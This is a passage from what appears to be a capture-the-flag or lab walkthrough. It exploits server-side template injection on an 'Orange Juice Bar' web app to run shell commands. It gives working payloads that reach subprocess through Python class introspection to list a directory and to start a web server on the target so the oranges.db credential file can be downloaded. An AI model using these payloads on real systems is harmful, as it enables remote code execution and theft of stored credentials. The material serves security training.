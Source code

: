 We're in the `/var/www/html/orangejuice/` directory.

10. See what else is in this directory. You can do this by changing `pwd` to `ls`.

```
{{2022.__class__.__mro__[1].__subclasses__()[312]('ls', shell=True, stdout=-1).communicate()}}
```

![img-19](./img/img-19.png)

11. We are trying to find a way to get the credentials for the **RapidSCADA** website, so the **oranges.db** file may be helpful. Let's get that file. Use python to create a simple webserver to host the files in that directory including the **oranges.db** file. Here's what we used as a payload.

>Avoid using any of the ports that were already taken by this IP address.

```
{{2022.__class__.__mro__[1].__subclasses__()[312]('python3 -m http.server 2022', shell=True, stdout=-1).communicate()}}
```

12. Upon clicking **Submit**, the Orange Juice Bar website "hangs." This means our command is running in the background. Open a new tab and type the following to access the wanted files: http://10.10.10.110:2022

>If you used a different port, make sure to use that one instead.
